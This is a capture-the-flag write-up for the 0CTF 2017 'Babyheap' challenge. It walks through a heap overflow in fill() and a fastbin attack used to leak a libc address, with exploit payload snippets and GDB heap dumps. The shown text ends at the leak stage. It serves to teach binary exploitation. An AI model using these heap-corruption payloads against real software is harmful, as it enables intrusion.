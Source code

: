 ## 0CTF 2017 - Babyheap

This is another basic heap challenge from the 0CTF which I use some different way to leak the address(That's what we always need for a heap challenge)!

**Requirements**

- Find the vulnerability(heap overflow in `fill()` function)
- Leak the libc address.
- Calculat the offset of the libc base address.
- Find the place to put the one_gadget address.
- Trigger!

### 1. Leak the address in the libc

As a heap challenge with a given libc.so, what we allways need to do is too leak the address from the libc and calculate the offset to find the base address of libc. This is also same with this challenge from 0CTF. 

From [how2heap](https://github.com/shellphish/how2heap), this challenge is under `fastbin_dup_into_stack` which is the tech we gone use to leak the address from the heap. **But, at first, I must explain why we need to leak the address this way.** When the fastbin link list only has one chunk, there's no address will be set in the `FD` and `BK` because top of the free list of fastbin will be store in the `main_arena`. So, in this case, we need to cheat the `malloc()` to return a allocated small bin size chunk as a fastbin size chunk. After we get two pointers which both point to one chunk, we can free the small bin one and it will set the `FD` and `BK` for us. That's the thing we want to leak. 

First, we need to allocate five chunks(first three are fastbin size and other two are smallbin size). The reason why we need to allocate two small bins is that if we only allocate one, when we free it, it will consolidate with the top chunk.

```
alloc(0x10) #Index 0	<- Fastbin
alloc(0x10) #Index 1	<- Fastbin
alloc(0x10) #Index 2	<- Fastbin
alloc(0x80) #Index 3	<- Small bin
alloc(0x80) #Index 4	<- Small bin
```

```
0x557c24bb9000:	0x0000000000000000	0x0000000000000021 <- Index 0
0x557c24bb9010:	0x0000000000000000	0x0000000000000000 <- 0's content
0x557c24bb9020:	0x0000000000000000	0x0000000000000021 <- Index 1
0x557c24bb9030:	0x0000000000000000	0x0000000000000000 <- 1's content
0x557c24bb9040:	0x0000000000000000	0x0000000000000021 <- Index 2 
0x557c24bb9050:	0x0000000000000000	0x0000000000000000 <- 2's content
0x557c24bb9060:	0x0000000000000000	0x0000000000000091 <- Index 3
0x557c24bb9070:	0x0000000000000000	0x0000000000000000 <- 3's content
...
0x557c24bb90e0:	0x0000000000000000	0x0000000000000000
0x557c24bb90f0:	0x0000000000000000	0x0000000000000091 <- Index 4
0x557c24bb9100:	0x0000000000000000	0x0000000000000000 <- 4's content
0x557c24bb9110:	0x0000000000000000	0x0000000000000000
...
0x557c24bb9170:	0x0000000000000000	0x0000000000000000
```

Then, we will free the 2nd chunk then the 1st chunck(Index). This will give us a free list and in the 1st chunk, we can see the address of the 2nd chunk.

```
free(2)
free(1)
```

```
fastbins
0x20: 0x560c20963020 —▸ 0x560c20963040 ◂— 0x0
0x30: 0x0
Address layout in GDB: 
pwndbg> x/40gx 0x560c20963000
0x560c20963000:	0x0000000000000000	0x0000000000000021 <- Index 0
0x560c20963010:	0x0000000000000000	0x0000000000000000
0x560c20963020:	0x0000000000000000	0x0000000000000021 <- Index 1 free
0x560c20963030:	0x0000560c20963040	0x0000000000000000 <- The address of the next free chunk in the free list
0x560c20963040:	0x0000000000000000	0x0000000000000021 <- Index 2 free
0x560c20963050:	0x0000000000000000	0x0000000000000000
0x560c20963060:	0x0000000000000000	0x0000000000000091 <- Index 3
```

#### Fastbin attack

Third, because the `0x560c20963060` is the address of the 3rd chunk(Index) which is a small chunk, we need to cheat `malloc()` to allocate that chunk for us. What we gonne do is to `fill()` the 0th chunk and overflow the address in the free list from `0x560c20963040` to `0x560c20963060`. Then if we allocate same size memory from the fastbin, we can get `0x560c20963060` instead of `0x560c20963040`.

```
payload = p64(0) * 3
payload += p64(0x21)
payload += p8(0x60)
fill(payload, 0)
alloc(0x10) #Index 1
```

```
fastbins
0x20: 0x55bab90d3060 ◂— 0x0 (Compare with the above linklist, 0x40 change to 0x60)
```

For now, we get the 1st(Index) chunk from the heap but we want to get the `0x560c20963060` as the fastbin. However, if we directly request `0x10` chunk, we cannot get the `0x560c20963060` because the size of it is `0x0000000000000091` which is `0x80`(-header). So, we need to use another overflow to change `0x0000000000000091` to `0x0000000000000021`.

```
payload = p64(0) * 3
payload += p64(0x21)
payload += p64(0) * 3
payload += p64(0x21)
fill(payload, 1)
alloc(0x10) #Index 2 (All the payload is for this, we want a fastbin)
```
```
0x56058fc0b000:	0x0000000000000000	0x0000000000000021 <- Index 0
0x56058fc0b010:	0x0000000000000000	0x0000000000000000
0x56058fc0b020:	0x0000000000000000	0x0000000000000021 <- Index 1
0x56058fc0b030:	0x0000000000000000	0x0000000000000000
0x56058fc0b040:	0x0000000000000000	0x0000000000000021 <- Index 2 free
0x56058fc0b050:	0x0000000000000000	0x0000000000000000
0x56058fc0b060:	0x0000000000000000	0x0000000000000021 <- Index 3 & 2 (Used to be 91)
Index 3 is the smallbin(0x80), and index 2 is the fastbin(0x10)
...
0x56058fc0b0e0:	0x0000000000000000	0x0000000000000000
0x56058fc0b0f0:	0x0000000000000000	0x0000000000000091 <- Index 4
0x56058fc0b100:	0x0000000000000000	0x0000000000000000
...
0x56058fc0b160:	0x0000000000000000	0x0000000000000000
```

Aha, now we get two pointer point to same chunk. So, we can free the small bin one to return it to the unsorted bin. The libc will set the `FD` and `BK` for us. But, again we still need to control the size of the bin. This time, because we want the chunk to be a smallbin, we need to set the size back to `0x80` at first. Then! `Dump(2)`.(As a fastbin)

```
payload = p64(0) * 3
payload += p64(0x21)
payload += p64(0) * 3
payload += p64(0x91)
fill(payload, 1)
free(3)
hex(dump(2))
```
```
0x56220cde1000:	0x0000000000000000	0x0000000000000021 <- Index 0
0x56220cde1010:	0x0000000000000000	0x0000000000000000
0x56220cde1020:	0x0000000000000000	0x0000000000000021 <- Index 1
0x56220cde1030:	0x0000000000000000	0x0000000000000000
0x56220cde1040:	0x0000000000000000	0x0000000000000021 <- Index 2 free
0x56220cde1050:	0x0000000000000000	0x0000000000000000
0x56220cde1060:	0x0000000000000000	0x0000000000000091 <- Index 3 & 2 free
0x56220cde1070:	0x00007fc036f48b78	0x00007fc036f48b78 <- That's what we want!!!!
...
0x56220cde10e0:	0x0000000000000000	0x0000000000000000
0x56220cde10f0:	0x0000000000000090	0x0000000000000090 <- Index 4(P is not set)
0x56220cde1100:	0x0000000000000000	0x0000000000000000
...
0x56220cde1170:	0x0000000000000000	0x0000000000000000
```
